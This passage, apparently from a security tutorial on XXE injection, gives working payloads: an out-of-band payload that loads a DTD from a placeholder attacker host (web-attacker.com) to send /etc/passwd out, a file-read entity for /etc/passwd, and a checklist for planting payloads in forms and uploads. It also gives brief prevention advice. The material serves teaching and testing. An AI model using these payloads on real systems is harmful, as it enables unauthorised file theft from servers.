 `http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server.

### How to prevent XXE vulnerabilities

Virtually all XXE vulnerabilities arise because the application's XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The easiest and most effective way to prevent XXE attacks is to disable those features.

Generally, it is sufficient to disable resolution of external entities and disable support for XInclude. This can usually be done via configuration options or by programmatically overriding default behavior. Consult the documentation for your XML parsing library or API for details about how to disable unnecessary capabilities.

### XXE Payloads

Defining a `ENTITY` called `name` and assigning it a value `feast`. Later we are using that ENTITY in our code.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>xml
```

We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to \`SYSTEM\` and path of the file.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}

### Exploiting XXE Strategy

* Place XML Payloads in input fields and URL parameters i.e. Login forms.
* Upload an XML payload file wherever possible.
* Intercept the request and look for any kind of XML data format.
* Replace found XML content with XML payloads.
* Use Python or Burp Collaborator as a web server to look for Blind XXE
  * `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "burp collaborator URL"> ]`
